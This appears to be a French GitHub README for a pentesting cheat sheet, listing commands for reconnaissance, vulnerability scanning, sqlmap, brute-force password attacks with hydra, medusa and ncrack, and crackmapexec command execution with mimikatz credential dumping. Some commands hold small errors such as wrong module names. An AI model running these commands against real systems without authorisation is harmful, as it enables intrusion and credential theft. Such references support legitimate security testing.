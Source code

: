 Toolbox de Commandes de Sécurité
À propos
Cette toolbox regroupe une série de commandes utiles pour la reconnaissance, les tests de sécurité, et l'exploitation des vulnérabilités. Elle est conçue pour aider les professionnels de la sécurité informatique dans leurs évaluations de la sécurité des systèmes et des réseaux.

Table des matières
🪧 À propos
📦 Prérequis
🚀 Installation
🛠️ Utilisation
🤝 Contribution
🏗️ Construit avec
📚 Documentation
🏷️ Gestion des versions
📝 Licence
Prérequis
Systèmes d'exploitation supportés :

Linux
Windows
macOS
Outils nécessaires :

nslookup
dig
host
whois
wafw00f
whatweb
dnsrecon
ping
fping
traceroute
testssl
sslscan
sslyze
nmap
spiderfoot
nikto
httrack
curl
wapiti
theHarvester
gobuster
sublist3r
dirb
wpscan
snmp-check
enum4linux
nbtscan
smbmap
sqlmap
hydra
medusa
ncrack
PwnXSS
crackmapexec
Beroot
Installation
Clonez le dépôt :

bash
Copy code
git clone https://github.com/votreutilisateur/votredepot.git
cd votredepot
Installez les dépendances nécessaires :

bash
Copy code
sudo apt-get install -y nslookup dnsutils host whois wafw00f whatweb dnsrecon fping traceroute testssl sslscan sslyze nmap spiderfoot nikto httrack curl wapiti theHarvester gobuster sublist3r dirb wpscan snmpcheck enum4linux nbtscan smbmap sqlmap hydra medusa ncrack crackmapexec
Pour les outils spécifiques (PwnXSS, Beroot), suivez les instructions dans leur documentation respective.

Utilisation
Phase de Reconnaissance
Passive
nslookup

bash
Copy code
nslookup URL
nslookup -type=A URL
nslookup -type=MX URL
nslookup -type=TXT URL
dig

bash
Copy code
dig URL
dig URL MX
dig URL A
dig URL TXT
Host command

bash
Copy code
host URL
host -a URL
Whois

bash
Copy code
whois URL
whois IP_ADDRESS
wafw00f

bash
Copy code
wafw00f URL
whatweb

bash
Copy code
whatweb URL
dnsrecon

bash
Copy code
dnsrecon -d URL
dnsrecon -d URL -a
Active
Ping

bash
Copy code
ping -c 5 IP_ADDRESS
ping -c 5 URL
Fping

bash
Copy code
fping -g IP_ADDRESS/24
Traceroute

bash
Copy code
traceroute URL
traceroute IP_ADDRESS
Tests SSL
testssl

bash
Copy code
testssl URL
sslscan

bash
Copy code
sslscan URL
sslyze

bash
Copy code
sslyze URL
Scan de Ports
Nmap classique

bash
Copy code
nmap IP_ADDRESS -p-
Nmap scan OS, services

bash
Copy code
nmap -Pn -sV -A IP_ADDRESS
Nmap scan script

bash
Copy code
nmap -Pn -sC IP_ADDRESS
OSINT
Spiderfoot
bash
Copy code
spiderfoot -s URL
Recherche de Vulnérabilités
Nmap vulnerability

bash
Copy code
nmap -Pn -sV --script vuln IP_ADDRESS
nikto

bash
Copy code
nikto -h IP_ADDRESS
Web
HTTRACK

bash
Copy code
httrack https://URL
Curl

bash
Copy code
curl -v -X http URL
Nmap detect waf

bash
Copy code
nmap --script=http-waf-fingerprint URL
Wapiti

bash
Copy code
wapiti -u https://URL -m sql,xss,xxe
theHarvester

bash
Copy code
theHarvester -d URL -l 10 -b all
gobuster

bash
Copy code
gobuster dir -u https://URL -w /usr/share/wordlists/dirb/big.txt -b 404 -q
Sublist3r

bash
Copy code
sublist3r --domain URL
Dirb

bash
Copy code
dirb https://URL /usr/share/wordlists/dirb/common.txt -S -r
Wpscan

bash
Copy code
wpscan --url URL --random-user-agent
Tests SNMP
Snmpcheck
bash
Copy code
snmp-check IP_ADDRESS
Tests SMB
Nmap smb Discover

bash
Copy code
nmap -p445 --script smb-protocols IP_ADDRESS
enum4linux smb Discover

bash
Copy code
enum4linux -U -o IP_ADDRESS
nbtscan

bash
Copy code
nbtscan IP_ADDRESS/24
SMBmap

bash
Copy code
smbmap -H IP_ADDRESS
Tests Database
Sqlmap
bash
Copy code
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
Attaque par Mot de Passe
FTP Server
hydra FTP

bash
Copy code
hydra -t 1 -V -f -l Anonymous -P /usr/share/wordlists/dirb/small.txt IP_ADDRESS ftp
Medusa FTP

bash
Copy code
medusa -h IP_ADDRESS -u Anonymous -P /usr/share/wordlists/dirb/small.txt -M ftp
ncrack FTP

bash
Copy code
ncrack -p 21 --user Anonymous -P /usr/share/wordlists/dirb/small.txt IP_ADDRESS
SMB Server
hydra SMB

bash
Copy code
hydra -t 1 -V -f -l admin -P /usr/share/wordlists/dirb/small.txt IP_ADDRESS smb
Medusa SMB

bash
Copy code
medusa -h IP_ADDRESS -u admin -P /usr/share/wordlists/dirb/small.txt -M smbnt
SMTP Server
hydra SMTP

bash
Copy code
hydra -t 1 -V -f -l admin -P /usr/share/wordlists/dirb/small.txt IP_ADDRESS smsmtp
Medusa SMTP

bash
Copy code
medusa -h IP_ADDRESS -u admin -P /usr/share/wordlists/dirb/small.txt -M snmtp
MYSQL Server
hydra MYSQL

bash
Copy code
hydra -t 1 -V -f -L /usr/share/wordlists/others/names.txt -P /usr/share/wordlists/dirb/small.txt URL mysql
Medusa MYSQL

bash
Copy code
medusa -h IP_ADDRESS -u admin -P /usr/share/wordlists/dirb/small.txt -M mssql
SNMP Server
hydra SNMP

bash
Copy code
hydra -P /usr/share/wordlists/dirb/small.txt -v IP_ADDRESS snmp
Medusa SNMP

bash
Copy code
medusa -h IP_ADDRESS -u admin -P /usr/share/wordlists/dirb/small.txt -M snmp
SSH
hydra SSH

bash
Copy code
hydra -v -V -u -L /usr/share/wordlists/others/names.txt -P /usr/share/wordlists/dirb/small.txt -t 1 -u IP_ADDRESS ssh
Medusa SSH

bash
Copy code
medusa -h IP_ADDRESS -u admin -P /usr/share/wordlists/dirb/small.txt -M ssh
ncrack SSH

bash
Copy code
ncrack -p 22 --user root -P passwords.txt IP_ADDRESS [-T 5]
LDAP
Nmap LDAP BF
bash
Copy code
nmap --script ldap-brute -p 389 IP_ADDRESS
TELNET
hydra TELNET

bash
Copy code
hydra -l root -P /usr/share/wordlists/dirb/small.txt -t 32 IP_ADDRESS telnet
ncrack TELNET

bash
Copy code
ncrack -p 23 --user root -P /usr/share/wordlists/dirb/small.txt IP_ADDRESS -T 5
Medusa TELNET

bash
Copy code
medusa -u root -P /usr/share/wordlists/dirb/small.txt -h IP_ADDRESS -M telnet
Exploitation
PwnXSS

bash
Copy code
python3 PwnXSS/pwnxss.py -u https://URL
crackmapexec

bash
Copy code
crackmapexec IP_ADDRESS -u utilisateur -p motdepasse --shares
crackmapexec IP_ADDRESS -u utilisateur -p motdepasse --exec-command 'whoami'
crackmapexec IP_ADDRESS/24 -u ‘admin’ -p ‘P@ssw0rd’
crackmapexec IP_ADDRESS -u utilisateur -p motdepasse --mimikatz
Post Exploitation
Beroot
bash
Copy code
python3 Beroot/Linux/beroot.py
python3 Beroot/Windows/beroot.py
Contribution
Flux de Contribution
Forkez le projet.
Créez une branche pour votre fonctionnalité (git checkout -b feature/AmazingFeature).
Commitez vos modifications (git commit -m 'Add some AmazingFeature').
Pushez vers la branche (git push origin feature/AmazingFeature).
Ouvrez une Pull Request.
Construit avec
Langages & Frameworks
Python
Outils
CI
GitHub Actions
Déploiement
Docker
Documentation
Pour plus d'informations, veuillez consulter la documentation officielle de chaque outil mentionné dans les sections précédentes.

Gestion des versions
Afin de maintenir un cycle de publication clair et de favoriser la rétrocompatibilité, la dénomination des versions suit la spécification décrite par la Gestion sémantique de version.

Les versions disponibles ainsi que les journaux décrivant les changements apportés sont disponibles depuis la page des Releases.

Licence
Voir le fichier LICENSE du dépôt.
